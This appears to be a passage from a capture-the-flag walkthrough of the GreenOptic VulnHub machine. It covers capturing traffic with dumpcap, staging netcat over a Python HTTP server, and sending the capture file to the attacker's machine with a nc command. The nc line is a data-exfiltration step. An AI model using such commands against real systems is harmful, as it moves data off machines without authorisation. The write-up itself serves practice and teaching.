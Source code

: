 ```text
dumpcap -i any
```

![c54c5dd5f5bdc8e7a8fd2a9f18c8a141.png](/images/vh-greenoptic1/73ca585052ca4f4382eafb0c05424553.png)

Now that we have done the pcap, we find that there is no way to transfer files off this box. Let's upload `nc` from our local machine using a python3 http.server. 

![e13b048a483cc91004efb363a2cd8c53.png](/images/vh-greenoptic1/d3a508ae577d416b8769935bbb2ec78c.png)

Now we can transfer the pcap using `nc`.

```text
Remote machine: 
nc -w 3 192.168.32.4 8000 < wireshark_pcapng_*

Local machine: 
nc -lvnp 8000 > wireshark.pcap
```

![1c4f68db70adcdb54c5a01aeb180cc8f.png](/images/vh-greenoptic1/2f69c28638a24256972f57fb9f54c0cf.png)

Time for another pcap analysis with Wireshark. Since we are capturing on all interfaces, we need to filter out the SSH traffic between our box and the remote machine.

```wireshark
!(ip.src == 192.168.32.0/24)
```
